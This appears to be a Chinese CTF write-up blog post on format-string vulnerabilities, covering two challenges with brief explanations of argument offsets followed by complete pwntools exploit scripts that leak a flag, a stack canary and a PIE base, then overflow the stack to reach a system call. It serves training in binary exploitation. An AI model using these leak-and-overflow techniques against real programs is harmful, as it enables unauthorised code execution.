 ```yaml
---
title: PWN入门-格式化字符串漏洞做题
date: 2024-01-26 23:07:36
tags: PWN
mathjax: true
---
```


# PWN入门-格式化字符串漏洞做题

## [HNCTF 2022 Week1]fmtstrre

函数传参前6个用寄存器rdi、rsi、rdx、rcx、r8、r9，从第七个开始压栈，所以“%7\$s”表示输出栈地址第1个位置当作字符串输出，后4个“a”用于将格式化字符串8字节对齐，看到flag只出来一半就再往前推地址。

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
elf=ELF('./attachment')
p=remote("node5.anna.nssctf.cn",28285)
p.recvuntil("Input your format string.")
fmtstr=b'%7$saaaa'
name_addr=p64(elf.sym["name"]-0x20)
payload1=flat([fmtstr,name_addr])
p.sendline(payload1)
p.interactive()
```

## [深育杯 2021]find_flag

首先前6个参数为寄存器传参，然后format数组所占空间为$\displaystyle\frac{\mathrm{0x}60-\mathrm{0x}08}{8}$字节，加起来后canary地址为第17个参数，ebp为第18个参数，return地址为第19个参数。

开了PIE保护，尝试泄漏sub_132F的返回地址，在原基址的情况下即为`call sub_132F`的下一条指令`mov eax,0`。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=remote("node4.anna.nssctf.cn",28929)
payload1="%17$p-%19$p"
p.recvuntil("Hi! What's your name? ")
p.sendline(payload1)
p.recvuntil("0x")
canary1=int(p.recv(16),16)
log.success("Canary: "+str(hex(canary1)))
p.recvuntil("0x")
elf_base=int(p.recv(12),16)-0x146f
system_addr=elf_base+0x1229
ret_addr=elf_base+0x101a
stack_overflow=cyclic(0x40-0x8)
ebp_padding=cyclic(0x8)
payload2=flat([stack_overflow,canary1,ebp_padding,ret_addr,system_addr])
p.recvuntil("Anything else? ")
p.sendline(payload2)
p.interactive()
```
